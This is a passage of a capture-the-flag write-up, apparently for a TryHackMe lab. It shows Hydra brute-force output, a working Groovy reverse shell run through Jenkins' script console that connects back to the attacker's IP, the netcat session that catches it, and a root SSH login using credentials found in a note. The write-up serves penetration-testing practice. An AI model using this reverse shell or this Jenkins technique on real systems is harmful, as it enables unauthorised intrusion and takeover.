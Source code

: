 ```bash
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-07-09 11:42:07

```

Yes!! We get the username and password to be able to log in.

At the address `http://127.0.0.1:8080/script` we can execute a script!

I will use a reverse shell of the repository [PayloadsAllTheThings](`https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy`):

```java
String host="10.9.1.222";
int port=1337;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

```bash
╰─ lanfran@parrot ❯ nc -nlvp 1337                                                                                                                                  ─╯
listening on [any] 1337 ...
connect to [10.9.1.222] from (UNKNOWN) [10.10.170.6] 53972
id
uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)
whoami
jenkins
cd /opt
ls -la
total 12
drwxr-xr-x 1 root root 4096 Aug  3  2020 .
drwxr-xr-x 1 root root 4096 Aug  3  2020 ..
-rw-r--r-- 1 root root  204 Aug  3  2020 note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:[REDACTED]
```
YES! Reverse shell like `jenkins`!

Looking through the directories again, I found the password for `root`!!

```bash
╰─ lanfran@parrot ❯ ssh -L 8080:172.17.0.2:8080 root@internal.thm                                                                                                  ─╯
root@internal.thm's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Jul  9 09:52:03 UTC 2021

  System load:  0.0               Processes:              111
  Usage of /:   63.9% of 8.79GB   Users logged in:        0
  Memory usage: 57%               IP address for eth0:    10.10.170.6
```